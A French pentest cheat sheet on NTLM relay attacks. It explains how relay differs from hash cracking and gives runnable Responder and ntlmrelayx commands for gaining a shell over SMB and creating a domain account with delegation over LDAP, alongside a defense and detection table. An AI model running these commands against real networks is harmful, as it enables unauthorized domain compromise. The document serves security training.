

# 🔗 NTLM Relay

> [!info] **En 1 phrase**
> NTLM Relay = intercepter l'authentification NTLM d'une victime et la **relayer** vers une autre
> machine pour y accéder — **sans jamais connaître le mot de passe**.

---

## 🎯 Concept



> [!info] 💡 **Différence avec le cracking**
> - **Cracker** : on garde le hash → on le brute-force offline.
> - **Relay** : on **réutilise** l'authentification en cours vers une cible qui accepte ce compte.
> Le relay marche si la cible n'exige pas **SMB Signing** (ou LDAPS avec certains protocoles).

---

## ⚙️ Comment ça marche

1. **Capturer** une authentification NTLM (via [[LLMNR-NBT-NS Poisoning|Responder]], ou une requête malveillante, ou MITM).
2. **Relayer** vers la cible : `SMB://`, `LDAP://`, `HTTP://`, `MSSQL://`.
3. Selon le protocole : exécution de commandes (SMB), **création de compte** (LDAP), etc.

---

## 🛠️ Exploitation

```bash
# 1. Responder SANS SMB/HTTP (sinon il "mange" le hash avant le relay)
#    /etc/responder/Responder.conf : SMB=Off, HTTP=Off
sudo responder -I eth0 -dwPv

# 2. Relayer vers SMB (exécution de commandes)
sudo ntlmrelayx.py -t smb://192.168.1.20 -smb2support -i
# → -i : shell interactif

# 3. Relayer vers LDAP (créer un compte admin dans le domaine !)
sudo ntlmrelayx.py -t ldap://192.168.1.10 -smb2support \
  --add-computer attacker --delegate-access

# 4. Variante : forcer l'auto-relay (un poste s'authentifie vers lui-même)
sudo ntlmrelayx.py -t smb://192.168.1.20 -smb2support --no-http-server
```

---

## 🔍 Détection & Défense

| Réponse | Détail |
|---|---|
| **SMB Signing obligatoire** | Bloque le relay SMB (Windows 10+ par défaut, mais pas toujours sur les vieux serveurs) |
| **Désactiver LLMNR/NBT-NS** | Coupe la source d'authentifications |
| **EPA (Extended Protection)** | Bloque le relay vers LDAP/HTTPS |
| **Surveillance** | 4624 de type réseau + protocole LDAP simultanés, AuthN vers plusieurs hôtes |

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **Le combo ultime AD**
> Capture via Responder (LLMNR) + relay **LDAP** vers un DC → **créer un compte** dans le domaine ou
> déléguer des accès → chemin vers DA sans aucun mot de passe.

> [!warning] ⚠️ **Piège** : beaucoup de machines modernes exigent le signing → relay SMB échoue.
> Vérifie l'état du signing d'abord : `nxc smb IP -M smb-risky` ou scan.

---

## 🔗 Liens

- [[LLMNR-NBT-NS Poisoning|🎙️ LLMNR/NBT-NS Poisoning]]
- [[Pass-the-Hash|🔑 Pass-the-Hash]]
- [[ACL Abuse AD|🧩 ACL Abuse]] (délégation / création de compte)
- → Note complète : [[05 - Active Directory|👑 Active Directory]]
